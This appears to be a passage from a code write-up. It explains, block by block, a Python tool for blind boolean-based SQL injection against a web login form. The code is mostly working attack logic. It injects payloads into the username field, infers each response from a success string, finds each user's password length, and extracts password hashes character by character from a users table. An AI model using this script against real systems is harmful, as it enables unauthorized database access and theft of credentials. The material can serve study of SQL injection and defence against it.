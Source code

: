 ```python
# variables
target = args.target
needle = args.needle
charset_name = args.charset
charset = CHARSETS[charset_name]
custom_payload = args.payload

print(f"Using charset: {charset_name} ({charset})")

total_queries = 0
```

This section initializes variables based on the command-line arguments provided by the user. It sets the target URL, success message, charset, and custom payload for SQL injection. The charset is selected from the predefined charsets based on the user's choice.

```python
def injected_query(payload):
    global total_queries
    final_payload = custom_payload.format(payload=payload) if custom_payload else f"admin' and {payload}--"
    r = requests.post(target, data={"username": final_payload, "password": "password"})
    total_queries += 1
    return needle.encode() not in r.content  # check if login is successful
```

The `injected_query` function dynamically constructs the SQL injection payload. If a custom payload is provided, it uses format to inject the SQL content. Otherwise, it defaults to the original hardcoded payload structure. This flexibility supports a broader range of testing scenarios while maintaining backward compatibility. It then sends the payload via a POST request and evaluates the response for the success message.

```python
def boolean_query(offset, user_id, character, operator=">"):
    payload = "(select hex(substr(password, {}, 1)) from users where id = {}) {} hex('{}')".format(offset + 1, user_id, operator, character)
    return injected_query(payload)

def invalid_user(user_id):  # check if user exists 
    payload = "(select 1 from users where id = {})".format(user_id)  
    return injected_query(payload)

def password_length(user_id):
    i = 0
    while True:
        payload = "(select length(password) from users where id = {} and length(password) <= {} limit 1)".format(user_id, i)
        if not injected_query(payload):
            return i  # returns password length
        i += 1

def extract_hash(charset, user_id, password_length):
    found = ""
    for i in range(0, password_length):
        for j in range(len(charset)):
            if boolean_query(i, user_id, charset[j]):
                found += charset[j]
                break
    return found

def total_queries_taken():
    global total_queries
    print("\t[!] {} total queries!".format(total_queries))
    total_queries = 0

```